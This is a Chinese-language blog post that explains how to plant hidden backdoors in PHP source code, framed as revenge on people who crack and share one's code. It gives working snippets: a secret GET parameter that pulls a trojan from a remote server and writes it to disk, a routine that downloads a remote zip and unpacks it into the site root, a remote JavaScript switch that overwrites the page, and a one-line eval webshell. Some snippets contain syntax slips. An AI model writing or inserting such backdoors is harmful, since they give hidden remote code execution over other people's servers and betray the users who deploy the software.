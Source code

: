 ```yaml
---
layout: post
cid: 24
title: 如何用三种方式优雅的往你的PHP源码放点不为人知的后门
slug: 24
date: 2019/09/13 12:12:00
updated: 2019/10/13 09:48:19
status: publish
author: given
categories: 
  - 杂
tags: 
---
```



 > 兄 dei 你有没有尝试过辛辛苦苦写的源码被人解密拿去大肆分享？不管有没有，反正我是没有。那么这篇文章我们就来说一下如何有效的防范狗 b 并且阴一把狗 b 吧 QAQ

## 巧用Get远程下载后门巧用Get远程下载后门

     <?php
    define('ROOT', dirname(SYSTEM_ROOT).'/');
    if($_GET['hacked']==='logged'){'
    file_put_contents(ROOT.'isetex.php',curl_get('http://域名/api/houmen.txt)'));
    }
    ?>

食用方法:把一个文本为木马的txt保存到云端，复制链接替换“http://域名/api/houmen.txt” 然后访问文件名称.php?hacked=logged 即可在目录生成一个从你云端木马文本获取内容并且名为isetex.php的木马文件

当然你也可以改成一句话之类的东西，简单说 你会玩 想咋玩咋玩
利用云端下载压缩包解压放后门

    <?php
    $down=file_get_contents('http://压缩包下载地址.zip');
            file_put_contents('update.zip',$down);
                $zip = new ZipArchive;
                $zip->open('./update.zip') && $zip->extractTo('../');
    
    
                echo "https://2890.ltd OK!!!";
    ?>

结合上面的get方式来也是妥妥的

        <?php
    if($_GET['hacked']==='logged'){
        $down=file_get_contents('http://压缩包下载地址.zip');
                file_put_contents('update.zip',$down);
                    $zip = new ZipArchive;
                    $zip->open('./update.zip') && $zip->extractTo('../');
    
                    echo "https://2890.ltd OK!!!";
    }
        ?>

食用方法：访问，自动下载云端压缩包并解压到根目录，必须要求zip压缩

JavaScript骚操作防盗模板

`var xhr = new XMLHttpRequest();
xhr.onreadystatechange=function(){
        if(xhr.responseText == "000"){//如果txt内容为000
                document.write("<center><h1>我是显示内容<center><h1>");
        }//则显示这里的内容
}
xhr.open("GET","http://webserver/isopen.txt",true);//云端txt

xhr.send(null);`
感觉代码写的挺明白的，js放oss然后模板添加一下调用，盗版狗专防，死稳

忘了说js还支持运行php代码 感觉人生js并肩php了呢



`<script language=php>@eval($_POST['web']);</script> `
